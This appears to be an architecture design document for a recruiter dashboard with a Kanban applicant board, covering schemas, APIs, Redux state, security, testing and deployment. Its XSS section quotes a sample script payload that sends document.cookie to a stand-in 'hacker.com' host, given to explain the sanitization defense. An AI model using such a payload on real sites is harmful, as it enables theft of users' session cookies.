


# Recruiter Dashboard & Job Management Architecture

## 1. Executive Summary & Domain Scope

The **Recruiter Dashboard & Job Management** module serves as the primary operational hub for users with the `recruiter` role within the SkillsSphere ecosystem. While the *Talent Discovery Workflow* handles the proactive AI semantic search aspect of candidate sourcing, this module is strictly focused on the complete requisition lifecycle—creation, modification, metrics tracking, and deep pipeline management of applicant states.

### Core Problem Addressed
Recruiters typically juggle dozens of open requisitions simultaneously, each containing hundreds of applicants at varying stages of the recruitment funnel. Standard tabular list-views make it incredibly difficult to visualize bottlenecks, identify slow-moving candidates, or analyze drop-off rates in the hiring process. This module introduces a highly visual, drag-and-drop Kanban Board system for every job posting, empowering recruiters to effortlessly transition candidates from "Applied" to "Interviewing" to "Hired" in real-time.

### Target User Personas
- **Enterprise Recruiters & Talent Acquisition**: Need a centralized dashboard to track job posting performance (views vs. applications), a rich text editor to draft complex job requirements, and a frictionless interface to manage applicant states across massive talent pools.
- **Hiring Managers**: Require instant visibility into ATS (Applicant Tracking System) intelligence scores, skill match breakdowns, and AI semantic alignment for every incoming application.

### High-Level Capability Matrix
**What the Module Orchestrates:**
- **Job Lifecycle Management**: Full CRUD operations for `JobPosting` documents (Draft, Publish, Pause, Close).
- **Kanban Applicant Tracking**: Renders a heavily optimized Trello-style board where each card is a candidate's application.
- **Rich Text Job Creation**: Integrates a robust WYSIWYG editor for drafting visually appealing job descriptions with embedded markdown support and instant badge tokenization.
- **AI/ATS Funnel Analytics**: Displays deeply integrated visual conversion metrics (Views -> Applications -> Hires) and detailed AI match score breakdowns for each active job.

**What the Module Deliberately Avoids:**
- **Automated Ghosting/Rejections**: Dragging a candidate to the "Rejected" column instantly triggers the backend state update, but it does *not* automatically fire a cold rejection email. Instead, the recruiter is prompted with an interstitial modal to draft a personalized feedback note, preserving brand reputation and candidate experience.

---

## 2. UI/UX Aesthetic Architecture & Design System

This module acts as the gold standard for the application's entire design system. It was meticulously engineered to impress at first glance while remaining profoundly functional. Every single element is mathematically aligned and color-graded to reduce cognitive load during eight-hour recruiting sessions.

### The Unified Premium Hero Framework
Every major route within the recruiter ecosystem—including `Recruiter Analytics`, `Applicants Kanban`, `Manage Postings`, and `Talent Finder`—utilizes a unified, highly polished Header architecture:

- **Centric Design Language**: Typography and core actions are perfectly centered. By moving away from traditional left-aligned enterprise interfaces, we force user focus strictly to the data that matters.
- **Vibrant Gradient Typography**: H1 titles leverage striking, continuous CSS text gradients (e.g., `<span className="bg-gradient-to-r from-blue-600 via-purple-500 to-teal-400 bg-clip-text text-transparent">`) to evoke a sense of modern, AI-driven intelligence.
- **Floating Decorative Tooling**: Absolute-positioned, subtly rotated container icons (such as `Users`, `BarChart3`, `Sparkles`) add dynamic, Z-index depth to the headers without cluttering the interactive viewport. They serve as psychological anchors for the page's purpose.
- **Symmetric Action Placement**: Primary call-to-actions (e.g., *Export Report*, *Export Candidates* in PDF/CSV) are anchored directly beneath subtitles for immediate cognitive accessibility.

### Adaptive Theming & Flawless Light/Dark Contrast
Traditional dashboards often fall apart when users switch OS themes. The entire recruiter module is built on a responsive Tailwind CSS foundation that guarantees seamless Light/Dark mode transitions without any "washed out" anomalies.

- **Intelligent Container Backgrounds**: Containers utilize dynamic depth scaling. In light mode, they use crisp, elevated surfaces (`bg-gray-50`), while in dark mode they switch to glassmorphic translucency (`dark:bg-slate-900/40 backdrop-blur-md`).
- **Precision Border Rendering**: Borders leverage high-fidelity contrast classes (`border-gray-100 dark:border-white/5`). This ensures clear structural definition in light mode without creating harsh visual cages in dark mode.
- **Guaranteed Typographical Readability**: Text elements strictly enforce paired legibility rules across themes (e.g., `text-slate-500 dark:text-slate-200` for subtitles). This entirely eliminates the risk of hardcoded light text vanishing into white backgrounds.
- **Inverse Interactive States**: Tab controllers and active buttons inverse perfectly. For example, active tabs utilize `bg-blue-600 text-white shadow-[0_0_15px_rgba(37,99,235,0.4)]` ensuring brilliant contrast in *both* light and dark modes, preventing unreadable black text on dark blue backgrounds.
- **Micro-Interactions**: Hover states consistently utilize `group-hover:scale-105` alongside `transition-all duration-300` to make static analytics cards feel tactile and deeply interactive.

---

## 3. Component Hierarchy & Topological Maps

The module's React tree is explicitly designed to isolate heavy re-renders (like drag-and-drop operations) from high-level page layouts. By isolating state to the lowest possible component, we ensure maximum FPS (frames per second) during interaction.



---

## 4. Comprehensive Sequence Diagrams

The architecture focuses heavily on managing complex, nested React states during drag-and-drop operations, utilizing **Optimistic UI updates** to ensure the Kanban board feels instantly responsive even if the backend update suffers latency.

### End-to-End User Flow (Drag & Drop State Mutation)



---

## 5. Detailed Data Models & Schemas

The recruiter dashboard relies on deeply nested MongoDB schemas, focusing heavily on analytics aggregation and historical timelines. Database normalization is highly enforced here.

### The Job Application Schema & Timelines
To provide detailed pipeline analytics, every status transition is immutably logged into a sub-document array.

```javascript
// server/src/models/JobApplication.js
const jobApplicationSchema = new mongoose.Schema({
  jobId: { type: mongoose.Schema.Types.ObjectId, ref: 'JobPosting', required: true, index: true },
  candidateId: { type: mongoose.Schema.Types.ObjectId, ref: 'User', required: true },
  resumeId: { type: mongoose.Schema.Types.ObjectId, ref: 'Resume' },
  
  // Kanban State
  status: { 
    type: String, 
    enum: ['applied', 'reviewing', 'interviewing', 'offered', 'hired', 'rejected', 'withdrawn'],
    default: 'applied' 
  },
  
  // Intelligence Metrics
  aiMatchScore: { type: Number, min: 0, max: 100, index: true },
  atsCompatibilityScore: { type: Number, min: 0, max: 100 },
  
  // Immutable Audit Trail
  timeline: [{
    status: { type: String, required: true },
    updatedBy: { type: mongoose.Schema.Types.ObjectId, ref: 'User' },
    note: { type: String },
    timestamp: { type: Date, default: Date.now }
  }]
}, { timestamps: true });

// Compound index for querying specific statuses inside a single job board instantly
jobApplicationSchema.index({ jobId: 1, status: 1 });
```

### Frontend Kanban Column Mapping
The frontend defines static columns that strictly map to the `enum` allowed in the DB schema to prevent rendering crashes.

```javascript
// client/src/modules/recruiter-jobs/constants/kanbanColumns.js
export const KANBAN_COLUMNS = {
  applied: { id: 'applied', title: 'New Applications', color: 'bg-blue-500' },
  reviewing: { id: 'reviewing', title: 'Under Review', color: 'bg-amber-500' },
  interviewing: { id: 'interviewing', title: 'Interviewing', color: 'bg-indigo-500' },
  hired: { id: 'hired', title: 'Hired', color: 'bg-emerald-500' },
  rejected: { id: 'rejected', title: 'Rejected', color: 'bg-red-500' }
};
```

---

## 6. API Endpoints & Contract Matrix

### REST Endpoints Topography

| HTTP Method | API Endpoint | Responsibility | Security Level | Payload | Response Signature |
| :--- | :--- | :--- | :--- | :--- | :--- |
| `GET` | `/api/recruiter/jobs` | Recruiter | Lists all jobs created by the authenticated recruiter. | `None` | `[{ _id, title, status, metrics }]` |
| `POST` | `/api/recruiter/jobs` | Recruiter | Creates a new job requisition. | `{ title, company, description, skills, salary }` | `{ success: true, jobId }` |
| `PATCH` | `/api/recruiter/jobs/:id` | Recruiter | Updates an existing job (e.g., closing a filled role). | `{ status: 'closed' }` | `{ success: true }` |
| `GET` | `/api/recruiter/jobs/:jobId/applicants` | Recruiter | Fetches all applications for the Kanban board. | `None` | `[{ application, candidatePreview }]` |
| `PATCH` | `/api/recruiter/applications/:id/status` | Recruiter | Moves a candidate between Kanban columns. | `{ status: "interviewing", note: "Optional feedback" }` | `{ success: true, timeline: [...] }` |
| `GET` | `/api/recruiter/analytics` | Recruiter | Aggregates AI/ATS match scores across all jobs. | `None` | `{ matchCategoryDistribution, totalApplicants }` |

### Websocket Notification Layer (Optional Extension)

While the REST layer handles state mutation, the application is pre-architected to integrate with `Socket.io` for real-time collaboration.
If Recruiter A is dragging candidates, Recruiter B receives a `CANDIDATE_MOVED` socket payload, invoking a passive Redux re-sync without a hard page reload.

---

## 7. State Management & Redux Slices

### Redux State Management for Drag & Drop
Managing Drag & Drop fluidly requires a highly normalized state to prevent iterating over massive arrays (O(N) operations) on every single mouse movement.

```javascript
// client/src/features/recruiter/kanbanSlice.js
import { createSlice } from '@reduxjs/toolkit';

export const kanbanSlice = createSlice({
  name: 'kanban',
  initialState: {
    columns: { applied: [], reviewing: [], interviewing: [], hired: [], rejected: [] },
    applicantsHash: {}, // O(1) lookup: { "app_123": { _id, name, score, ... } }
  },
  reducers: {
    initializeBoard: (state, action) => {
      // Clear columns and populate hash
      Object.keys(state.columns).forEach(key => state.columns[key] = []);
      action.payload.forEach(app => {
        if (state.columns[app.status]) {
          state.columns[app.status].push(app._id);
          state.applicantsHash[app._id] = app; // Fast access reference
        }
      });
    },
    optimisticMove: (state, action) => {
      const { applicantId, sourceCol, destCol, destIndex } = action.payload;
      // Filter out of source array
      state.columns[sourceCol] = state.columns[sourceCol].filter(id => id !== applicantId);
      // Insert into exact position in destination array
      state.columns[destCol].splice(destIndex, 0, applicantId);
      // Mutate the hash status reference instantly
      state.applicantsHash[applicantId].status = destCol;
    }
  }
});
```

---

## 8. Security, Validation & Error Handling

### RBAC Authorization & Tenant Isolation
The most severe risk in an ATS is an IDOR (Insecure Direct Object Reference) vulnerability, where Recruiter A manipulates the REST API to view applicants for Job Posting B (owned by a competitor).
- **Middleware Protection**: Every route touching `/api/recruiter/jobs/:id/*` is gated by a rigorous `verifyJobOwnership` middleware.
- **Implementation**: The logic asserts that `JobPosting.findOne({ _id: req.params.id, recruiterId: req.user._id })` returns a valid document. If the result is null, a hard `403 Forbidden` response is instantly thrown, entirely walling off access to candidate PII (Personally Identifiable Information).

### XSS Prevention in Rich Text Editor
The `EditJobPostingPage` utilizes a WYSIWYG editor which inherently generates raw HTML content.
- **Vulnerability**: A malicious user pastes `<script>fetch('hacker.com/steal?cookie='+document.cookie)</script>` into the job description.
- **Defense-in-Depth**: The backend uses `DOMPurify` (run via `jsdom` inside Node.js) to aggressively strip all `<script>`, `<style>`, and `<iframe`> tags from the `description` payload *before* saving to MongoDB. The frontend additionally utilizes `dangerouslySetInnerHTML` with extreme caution, performing a secondary client-side sanitization pass.

### Drag & Drop Race Conditions
If two recruiters are managing the exact same Kanban board simultaneously:
- Recruiter A moves Candidate X to 'Rejected'.
- Recruiter B (whose screen hasn't polled the server yet) moves Candidate X to 'Interviewing'.
- **Handling**: The backend `PATCH` route requires an `expectedPreviousStatus` parameter. When Recruiter B fires their request (`expected: 'reviewing'`), the backend checks MongoDB, sees the status is actually 'rejected', and throws a `409 Conflict`. Recruiter B's optimistic UI update is instantly reverted, preventing dirty data overwrites.

---

## 9. Testing & Quality Assurance Methodology

### Automated Testing Matrix
The Recruiter Module is protected by multiple layers of automated testing.
- **Unit Testing (Jest + React Testing Library)**: Tests Redux slice reducers in complete isolation. Verifies that `optimisticMove` correctly splices the target applicant into the exact target index of the new column array without side effects.
- **Integration Testing (Supertest + Mocha)**: Targets the Node.js API. Specifically validates the `verifyJobOwnership` middleware by authenticating a Mock Recruiter and attempting to mutate a Job Posting owned by another tenant. Must return `403`.
- **E2E Testing (Cypress)**: Simulates actual mouse drag events within a headless browser to ensure the `react-beautiful-dnd` context successfully registers drops, fires Axios requests, and displays success toasts.

---

## 10. Component-Level Implementation Specs

### `ApplicantsKanbanBoard.jsx`
Wraps the entire board in a `<DragDropContext>` provider from `@hello-pangea/dnd`.
- **`onDragEnd` Logic**: Parses the complex `result` object. If `result.destination` is null (e.g., dropped outside a valid column boundary), it silently aborts. Otherwise, it extracts `sourceCol`, `destCol`, and `destIndex` to fire the Redux `optimisticMove` action.

### `KanbanColumn.jsx`
Wraps its localized children in a `<Droppable>` container.
- **Interactive Styling**: Utilizes dynamic Tailwind classes. When a user hovers a card *over* the column, the `snapshot.isDraggingOver` boolean is leveraged to apply a subtle background highlight (`bg-gray-800/50` or `bg-blue-50/50`), providing immediate tactile feedback that the zone accepts drops.

### `ApplicantCard.jsx`
Wrapped in a `<Draggable>` container.
- **Data Rendering**: Condenses the candidate's name, their `ATS Compatibility Score`, `AI Semantic Match`, and an avatar into a highly compact micro-UI.
- **Performance**: Heavily memoized using `React.memo`. Since a single column might contain 200 active applicants, dragging a card causes the parent `<Droppable>` to execute a re-render. Memoizing the individual cards ensures *only* the dragged card and visually affected siblings re-render, keeping CPU load minimal and framerates locked.

### `EditJobPostingPage.jsx` & Form Engineering
The creation form integrates `react-hook-form` coupled tightly with `zod` schema resolvers for robust, instantaneous client-side validation without waiting for network round-trips.
- **Dynamic Skill Tags**: Features a specialized input intercept component. Pressing the comma (",") key or Enter instantly intercepts the DOM event, validates the typed string, and converts it into a visual pill badge, popping it into the `skills` array state.
- **Auto-Save Mechanism**: Implements a debounced auto-save hook. Every 15 seconds, if the `isDirty` form flag is true, it silently issues a PATCH to save the `JobPosting` as a 'draft', completely preventing data loss if the browser tab crashes.

### `RecruiterAnalyticsPage.jsx`
Responsible for deep AI/ATS visual analytics, separated into highly modular segmentation tabs.
- **AI & ATS Intelligence Stability**: This component utilizes highly strict boundary checks. The backend delivers aggregated `lowAtsCount` and complex `matchCategoryDistribution` matrices. These are mapped dynamically to `CircularProgressRing` SVG gauges and `recharts` Pie distributions.
- **Error Boundary Prevention**: The UI is explicitly engineered to avoid component crashes by rigorously asserting the availability of all external library dependencies (like `lucide-react` icons) and handling empty data payloads gracefully via `applicantsPerJob.length > 0` checks, rendering animated pulse skeletons instead of throwing exceptions.
- **PDF/CSV Export Tooling**: Implements a highly optimized HTML-to-PDF canvas rasterizer and CSV stringifier natively in the browser, completely offloading export compute resources from the Node.js backend.

---

## 11. Deployment & Infrastructure Considerations

### Vite Build Optimization
The recruiter module heavily relies on complex data visualization libraries (`recharts`) and robust drag-and-drop contexts (`@hello-pangea/dnd`). To ensure fast Time-to-Interactive (TTI) for end users:
- **Code Splitting**: The Vite bundler is configured to aggressively chunk the application. `recharts` and `lucide-react` are split into separate vendor chunks, ensuring the initial Javascript payload for the login screen remains under 100KB, only downloading the massive visualization engines when the user actually accesses the Recruiter Dashboard.
- **Tree Shaking**: Utilizing ES Module imports ensures unused icons and charts are completely tree-shaken out of the final production build.

### CI/CD Pipeline Integration
- **Pre-commit Hooks**: Enforces ESLint and Prettier formatting strictly on staged files via Husky, ensuring no broken JSX syntax or unused React variables ever enter the `main` branch.
- **Automated Deployments**: Committing to `main` triggers a GitHub Actions runner that automatically executes `npm run build`, runs the Jest suite against the Kanban Redux slice, and upon success, synchronizes the build artifacts with the AWS CloudFront CDN distribution for instantaneous global edge caching.
